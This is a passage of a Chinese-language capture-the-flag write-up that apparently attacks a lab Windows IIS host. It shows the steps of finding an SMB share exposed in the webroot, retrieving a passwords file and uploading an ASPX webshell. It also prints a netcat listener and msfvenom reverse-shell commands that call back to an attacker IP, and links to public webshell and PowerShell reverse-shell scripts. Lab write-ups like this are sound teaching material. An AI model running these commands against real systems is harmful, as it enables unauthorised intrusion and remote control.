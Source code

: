         - 所以可以再依據字串掃一次
            - ![](https://i.imgur.com/zMsZUx2.png)
            - 還真的掃到了 `4_0_30319`
### 通靈掃描QQ
- 不知道為什麼機器死掉ㄌ，重新開的 IP 是 `10.10.63.244`
- 我們如果隨便訪問一個不存在的目錄，會回應404
    - `curl -I http://10.10.63.244:49663/12334/`
    - ![](https://i.imgur.com/o4SUzYj.png)
- 通靈覺得，說不定 webroot 有剛才 smb 的資料夾?
    - `curl -I curl -I http://10.10.63.244:49663/nt4wrksv/`
    - 200! 還真的有!!
        - ![](https://i.imgur.com/S3zKRkv.png)
    - 那我們是不是能取得剛剛 `passwords.txt` 的檔案
        - http://10.10.63.244:49663/nt4wrksv/passwords.txt
        - ![](https://i.imgur.com/KSZpoMG.png)
        - 度ㄉ!!真的可以!!!!!

## 準備 Exploit
- 那我們應該可以用匿名登入的 smb 來上傳東西囉!
    - 準備一隻喵喵
        - ![](https://i.imgur.com/s4eBOpX.png)
    - `smbclient -N //10.10.63.244/nt4wrksv`
        - ![](https://i.imgur.com/L6DIdNv.png)
    - 嘗試用瀏覽器訪問!
        - ![](https://i.imgur.com/kVrt6js.png)
        - 成功!!!
- 既然他是 IIS ，又是 ASPX，那我們應該可以傳個 aspx 的 webshell?
    - 網路上隨便找了一ㄍ
        - https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx
        - 丟上去
        - ![](https://i.imgur.com/GALqpOA.png)
    - 可以ㄟ!!!
        - ![](https://i.imgur.com/WbsRzYu.png)
        - 好讚ㄛ
    - 可以看系統的資訊ㄌ
        - ![](https://i.imgur.com/JDuWVj0.png)
- 亂逛系統
    - 輸入指令 "cd ..\..\..\Users\Bob\Desktop && dir"
        - `![](https://i.imgur.com/hZrXxtO.png)`
- 取得 user flag
    - `"cd ..\..\..\Users\Bob\Desktop && type user.txt"`
    - ![](https://i.imgur.com/GBnyp6o.png)
### 戳 Reverse shell
雖然 Webshell 已經滿好用的了，但Reverse shell 用起來還是比較爽，我們來嘗試使用 Reverse shell
下面提供了滿多我嘗試的方法，但大多數都失敗ㄌ，僅有最後一個成功，不過我把失敗的方法也都列出來

- 這邊先把 reverse shell 接收端開好等待
    - `nc -nvvlp 7877`
- 首先是透過 msfevnom 來產 `windows/shell_reverse_tcp`
    - `msfvenom -p windows/shell_reverse_tcp LHOST=10.13.21.55 LPORT=7877 -f aspx -o shell.aspx`
    - ![](https://i.imgur.com/JWgGngg.png)
    - 丟上去
        - `put shell.aspx`
        - ![](https://i.imgur.com/Dia8cD4.png)
    - 不過失敗ㄌQQ
- 再來用一樣的 payload 產 exe
    - `msfvenom -p windows/shell_reverse_tcp LHOST=10.13.21.55 LPORT=7877 -f exe -o shell.exe`
    - 也還是失敗了
- 使用 `Invoke-PowerShellTcp`
    - https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
    - 把檔案傳上去後執行